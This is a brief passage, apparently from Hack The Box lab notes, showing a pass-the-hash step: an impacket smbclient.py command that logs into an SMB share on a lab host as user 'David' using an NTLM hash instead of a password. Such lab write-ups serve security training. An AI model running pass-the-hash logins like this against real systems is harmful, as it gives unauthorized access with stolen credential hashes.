 
## PTH (Connecting to the share)

```sh
smbclient.py 'HTB/David'@10.129.69.38 -hashes :c39f2beb3d2ec06a62cb887fb391dee0

```